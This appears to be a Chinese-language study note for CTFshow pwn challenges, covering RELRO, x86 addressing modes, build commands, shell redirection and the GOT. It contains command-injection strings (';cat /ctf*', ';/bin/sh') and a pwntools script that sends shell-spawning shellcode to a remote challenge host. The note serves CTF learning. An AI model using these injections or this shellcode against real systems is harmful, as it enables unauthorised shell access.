


<!-- @import "[TOC]" {cmd="toc" depthFrom=1 depthTo=6 orderedList=false} -->

<!-- code_chunk_output -->

- [Knowledge {ignore=true}](#knowledge-ignoretrue)
  - [system()](#system)
  - [checksec](#checksec)
    - [RELRO](#relro)
      - [RELRO保护 3种状态](#relro保护-3种状态)
        - [1. No RELRO](#1-no-relro)
        - [2. Partial RELRO](#2-partial-relro)
        - [3. Full RELRO](#3-full-relro)
    - [RWX](#rwx)
  - [寻址方式](#寻址方式)
  - [gcc](#gcc)
    - [.c -\> .exe](#c---exe)
    - [.c .s .o .exe](#c-s-o-exe)
  - [.asm nasm](#asm-nasm)
  - [;cat /ctf\*](#cat-ctf)
    - [通配符 \* 匹配 任意长度 包括0长度 的任意字符序列](#通配符--匹配-任意长度-包括0长度-的任意字符序列)
  - [;/bin/sh](#binsh)
    - [直接拿取一个 shell](#直接拿取一个-shell)
  - [重定向](#重定向)
    - [\>\>  追加写入](#--追加写入)
    - [\>   覆盖写入](#---覆盖写入)
    - [1\>\&0](#10)
      - [0 标准输入 1 标准输出](#0-标准输入-1-标准输出)
  - [objdump](#objdump)
  - [got表 got.lib表  全局偏移表（Global Offset Table，简称 GOT）](#got表-gotlib表--全局偏移表global-offset-table简称-got)
    - [GOT可写](#got可写)
    - [GOT不可写](#got不可写)
      - [抛异常](#抛异常)
  - [PWNTOOLS-shellcraft](#pwntools-shellcraft)

<!-- /code_chunk_output -->


# Knowledge {ignore=true}

## system()

执行命令  shell中执行命令

```C
system("cat /ctfshow_flag")
system("/bin/sh")
```

## checksec

Arch: amd64-64-little
RELRO: Full RELEO
Stack: Canary found
NX: NX enabled
PIE: PIE enabled
RWX：Has RWX segments

64位保护全开

### RELRO

RELRO（RELocation Read-Only）是一种可选的二进制保护机制
用于增加程序的安全性
它主要通过限制和保护
全局偏移表（Global Offset Table，简称 GOT）和
过程链接表（Procedure Linkage Table，简称 PLT）
的可写性来防止针对这些结构的攻击

#### RELRO保护 3种状态

##### 1. No RELRO

在这种状态下，GOT和PLT都是可写的
意味着攻击者可以修改这些表中的指针，从而进行攻击。这是最弱的保护状态

##### 2. Partial RELRO 
在这种状态下，GOT的开头部分被设置为只读（RO）
而剩余部分仍然可写。这样可以防止一些简单的攻击，但仍存在一些漏洞

##### 3. Full RELRO
在这种状态下，GOT和PLT都被设置为只读（RO）
这样做可以防止对这些结构的修改，提供更强的保护。任何对这些表的修改都会导致程序异常终止

### RWX
存在可读可写可执行的段

## 寻址方式

```S
section .data
    msg db "Welcome_to_CTFshow_PWN", 0
section .text
    global _start

_start:

; 立即寻址方式
    mov eax, 11         ; 将11赋值给eax
    add eax, 114504     ; eax加上114504
    sub eax, 1          ; eax减去1

; 寄存器寻址方式
    mov ebx, 0x36d      ; 将0x36d赋值给ebx
    mov edx, ebx        ; 将ebx的值赋值给edx

; 直接寻址方式
    mov ecx, [msg]      ; 将msg的地址赋值给ecx

; 寄存器间接寻址方式
    mov esi, msg        ; 将msg的地址赋值给esi
    mov eax, [esi]      ; 将esi所指向的地址的值赋值给eax

; 寄存器相对寻址方式
    mov ecx, msg        ; 将msg的地址赋值给ecx
    add ecx, 4          ; 将ecx加上4
    mov eax, [ecx]      ; 将ecx所指向的地址的值赋值给eax

; 基址变址寻址方式
    mov ecx, msg        ; 将msg的地址赋值给ecx
    mov edx, 2          ; 将2赋值给edx
    mov eax, [ecx + edx*2]  ; 将ecx+edx*2所指向的地址的值赋值给eax

; 相对基址变址寻址方式
    mov ecx, msg        ; 将msg的地址赋值给ecx
    mov edx, 1          ; 将1赋值给edx
    add ecx, 8          ; 将ecx加上8
    mov eax, [ecx + edx*2 - 6]  ; 将ecx+edx*2-6所指向的地址的值赋值给eax

; 输出字符串
    mov eax, 4          ; 系统调用号4代表输出字符串
    mov ebx, 1          ; 文件描述符1代表标准输出
    mov ecx, msg        ; 要输出的字符串的地址
    mov edx, 22         ; 要输出的字符串的长度
    int 0x80            ; 调用系统调用

; 退出程序
    mov eax, 1          ; 系统调用号1代表退出程序
    xor ebx, ebx        ; 返回值为0
    int 0x80            ; 调用系统调用

```

```S

.text:08xxxxxx mov eax, []
.text:08xxxxxx mov eax, (offset) dword_80490E8

.text:08xxxxxx mov eax, 11
.text:08xxxxxx mov eax, 0x36d

地址 赋值给 eax
数值11 赋值给 eax''

data中找到 地址  对应的数值  即指向 地址的值
.data:080490E8  dword_80490E8 dd 636C6557h
.data:080490E8  
.data:080490E8  aOmeToCtfshowPw db 'ome_to_CTFshow_PWN',0
```

## gcc

### .c -> .exe

```shell
gcc .c -o flag
```

### .c .s .o .exe

## .asm nasm

```shell
nasm -f elf  flag.asm -o flag.o

ld -m elf_i386 -o flag flag.o

./flag 
运行此文件
```

## ;cat /ctf*  

### 通配符 * 匹配 任意长度 包括0长度 的任意字符序列

##  ;/bin/sh

### 直接拿取一个 shell

## 重定向  

```shell
echo 'flag is here' >>/ctfshow_flag
echo 'flag is here' >/ctfshow_flag
```

### >>  追加写入
 
### >   覆盖写入

### 1>&0  

#### 0 标准输入 1 标准输出

```shell
exec cat /ctf* 1>&0
```

1>&0 
通过将标准输出重定向到标准输入
可以实现将命令的输出作为后续命令的输入

这样可以在执行sh 命令后，进入一个交互式的Shell环境

可以在该环境中执行命令并与用户进行交互


## objdump

```shell
objdump -R  pwn
```

```shell
# 查看一下表项地址

readelf -S pwn
```

## got表 got.lib表  全局偏移表（Global Offset Table，简称 GOT）

```shell
./pwn 0x600fc0

查看表项地址 后 got表 address 为 0x600fc0

```
### GOT可写


### GOT不可写 
#### 抛异常


## PWNTOOLS-shellcraft

```python
from pwn import *

context.log_level = 'debug'

#io = process('./pwn')
io = remote("pwn.challenge.ctf.show", 28112)

shellcode = asm(shellcraft.sh())

io.sendline(shellcode)
io.interactive()
```

